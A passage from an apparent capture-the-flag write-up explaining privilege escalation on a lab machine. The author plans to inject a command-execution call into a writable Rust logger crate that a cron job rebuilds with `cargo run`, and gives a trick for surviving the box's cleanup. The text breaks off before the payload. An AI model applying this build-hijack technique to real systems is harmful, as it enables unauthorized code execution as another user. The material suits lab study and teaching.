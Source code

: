### Cargo Hijack

#### Strategy

Given that the binary is compiled each time the cron is executed (because of
`cargo run`), if I can modify any of the code, I can get execution as atlas. I
noted above that the `main.rs` file was not writable. But the source for the
`logger` library that’s imported is:

    
    
    silentobserver@sandworm:/opt/crates/logger/src$ ls -l
    total 4
    -rw-rw-r-- 1 atlas silentobserver 732 May  4  2023 lib.rs
    

I’ll modify that to get execution as atlas (presumably outside of the jail, as
`cargo` wasn’t a binary inside the jail).

#### Note About Cleanup

The cleanup on this box is done in a rather annoying way, where it seems to
delete the entire `tipnet` directory and rebuild it. That means if I have a
shell in that directory when it happens, it gets lost. I found the best way to
modify this is to have the shell in `/opt`, and then `vim
crates/logger/src/lib.rs`. Then I can write my changes and get another SSH
session to look for results. By leaving `vim` open, even when the cleanup
deletes the directory and recreates it, my changes are still in my copy. When
I just save again, it will warn me:

![image-20231115072844509](../img/image-20231115072844509.png)

Entering `y` will save over the cleaned copy.

#### Modify lib.rs POC

There’s a Rust struct (think object) named `Command` [[docs](https://doc.rust-
lang.org/std/process/struct.Command.html)]. I’ll need to add `use
std::process::Command` at the top, and then I’ll put my `Command` invocation
at the bottom:

    
    
    use std::fs::OpenOptions;
    use std::io::Write;
    use chrono::prelude::*;
    use std::process::Command;
    
    pub fn log(user: &str, query: &str, justification: &str) {
        let now = Local::now();
        let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
        let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
    